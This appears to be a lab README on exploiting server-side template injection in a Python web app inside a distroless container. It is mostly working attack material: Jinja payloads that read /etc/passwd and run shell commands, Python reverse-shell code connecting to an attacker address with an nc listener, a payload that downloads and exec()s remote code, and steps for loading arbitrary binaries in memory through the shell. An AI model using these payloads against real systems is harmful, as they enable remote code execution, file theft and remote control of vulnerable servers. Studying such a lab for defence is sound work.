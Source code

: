 ### Build distroless
```bash
docker build . -t py-ssti-dless
docker start -p 8080:8080 py-ssti-dless
```

### Raw image (no distroless)
```bash
docker run -it python:3.10-slim sh
```

### Read File
The symbol `216` is `<class 'warnings.catch_warnings'>`.
`http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["open"]("/etc/passwd").read()}}`

### RCE
`http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["__import__"]("os").popen("command -v python").read()}}`

### Get python rev shell

Create a file called `python_rev.py` with your **IP address** and **port**:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.17.0.3",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/usr/bin/python","-i"])
```

Start a listener on your machine:

```bash
nc -lvnp 4444
```

Now, lets make the server **exec** the python file **downloading it via http**:
```python
http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["exec"]((1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["__import__"]("urllib", fromlist=["request"]).request.urlopen("http://172.17.0.3:8989/tmp/python_rev.py").read())}}
```

**You should have received the python shell!**


### Execute arbitrary binaries

Generate the payload to load in memory with `fee /bin/ls > ls.py`. **AND UPDATE** the payload with the following code at the begining **or you will lose your shell**:

```python
# imports ...
pid = os.fork()
if pid == 0: #pid==0 represents the child process
# Rest of the payload inside this if
```

**If you want to execute the binary with more params, add them in the last line of the payload**

In your python reverse shell run this to **download and execute the binary**:

```python
from urllib import request
ls = request.urlopen("http://172.17.0.3:8989/tmp/ls.py").read()
exec(ls)
```
